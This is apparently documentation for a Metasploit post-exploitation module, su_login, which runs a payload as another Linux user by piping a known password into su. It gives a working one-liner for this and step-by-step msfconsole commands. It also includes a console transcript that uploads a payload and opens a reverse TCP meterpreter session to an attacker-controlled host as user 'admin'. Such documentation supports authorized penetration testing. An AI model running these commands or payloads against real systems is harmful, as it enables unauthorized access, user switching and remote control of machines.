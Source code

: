 ## Description

  This module attempts to create a new login session by invoking the su command of a valid username and 
  password. If the login is sucessful, a new session is created via the specified payload. While this 
  functionality can be reproduced by a TTY shell, a hacker might want to switch users with a meterpreter 
  session, or simply have all of their shells managed in one place.

  The su command is used in Linux and Unix environments to change to another user in linux. We can use this
  command to launch our payload as another user by running `su - [username] -c [payload]`. However, because
  you cannot pass in the password into su directly, we have to get a little more crafty. By running a command
  in sh, we can pipe the output to our su command (kind of) by using the following command:
  `sh -c 'sleep 1; echo [password]' | script /dev/null -qc 'su - [username] -c [payload]'`.

  Working example: `sh -c 'sleep 1; echo lamepassword' | script /dev/null -qc 'su - admin -c /tmp/shell'`

## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Get valid target username and password
  4. Do: `use exploit/linux/local/su_login`
  5. Do: `set SESSION [SESSION]`
  6. Do: `set USERNAME [USERNAME]`
  7. Do: `set PASSWORD [PASSWORD]`
  8. Do: `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
  9. Do: `set LHOST [LHOST]`
  10. Do: `set LPORT [LPORT]`
  11. Do: `run`
  12. You should get a new session as the specified user

## Options

  | Name     | Description                                         |
  |----------|-----------------------------------------------------|
  | SESSION  | Which session to use, can be viewed with `sessions` |
  | USERNAME | The username of the user to switch to               |
  | PASSWORD | The password of the user to switch to               |

## Scenarios

  ```
  msf > use exploit/linux/local/su_login 
  msf exploit(linux/local/su_login) > set SESSION 1
  msf exploit(linux/local/su_login) > set USERNAME admin
  msf exploit(linux/local/su_login) > set PASSWORD lamepassword
  msf exploit(linux/local/su_login) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/local/su_login) > set LHOST 192.168.3.193
  msf exploit(linux/local/su_login) > set LPORT 4445
  msf exploit(linux/local/su_login) > run

  [*] Started reverse TCP handler on 192.168.3.193:4445 
  [*] Uploading payload to target
  [*] Attempting to login with su
  [*] Sending stage (976712 bytes) to 172.17.0.2
  [*] Meterpreter session 2 opened (192.168.3.193:4445 -> 172.17.0.2:39868) at 2020-09-23 04:26:49 -0400

  meterpreter > getuid
  Server username: admin @ 59f089909a39 (uid=1001, gid=1001, euid=1001, egid=1001)
  ```
